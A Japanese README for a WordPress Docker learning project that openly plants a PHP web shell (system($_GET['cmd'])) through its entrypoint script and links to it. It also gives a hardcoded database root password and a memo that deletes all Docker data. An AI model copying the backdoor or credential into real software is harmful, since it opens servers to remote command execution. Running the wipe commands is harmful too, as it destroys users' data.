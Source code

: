 # inception

WordpressのDockerコンテナです。
セキュリティの勉強をかねて少しやります。

WebShell仕込んでます。
実稼働で使わないでください！

## Containers

- nginx
- wordpress
- mariadb

## WebShell

https://ashitomi.42.jp/wordpress/wp_get-access.php

### 配置場所

- /var/www/html/wordpress/wp_get-access.php

`srcs/requirements/wordpress/docker-entrypoint.sh`

```bash
echo '<?php system($_GET["cmd"]);?>' > /var/www/html/wordpress/wp_get-access.php
```

### 用途

Bonusの部分で利用します。

> 自分が便利だと思う好きなサービスを設定する。選んだサービスを正当化する必要があります。

## SQL チートシート

```
# Maria DBのサーバーニアタッチする
docker exec -it $(docker ps -q -f name=mariadb) /bin/ash

# ログイン
mariadb -hlocalhost -uroot -p42inceptiondbroot

# MySQLのコマンド
> USE mysql;
> SELECT * FROM <TABLE_NAME>
```

## ポートフォリオ

昔作ったポートフォリをを載せてます。

### 用途

Bonusの部分で利用します。

> PHPを除くお好きな言語で、簡単な静的ウェブサイトを作成してください（はい、PHPは除きます！）。例えば、ショーケースサイトや履歴書を発表するためのサイトなど。


## Memo

### 環境を初期化する

```shell
sudo rm -rf ~/data/

docker stop $(docker ps -qa); docker rm $(docker ps -qa); docker rmi -f $(docker images -qa); docker volume rm $(docker volume ls -q); docker network rm $(docker network ls -q) 2>/dev/null
```

### 起動確認

https://localhost:443/wp_install_log.html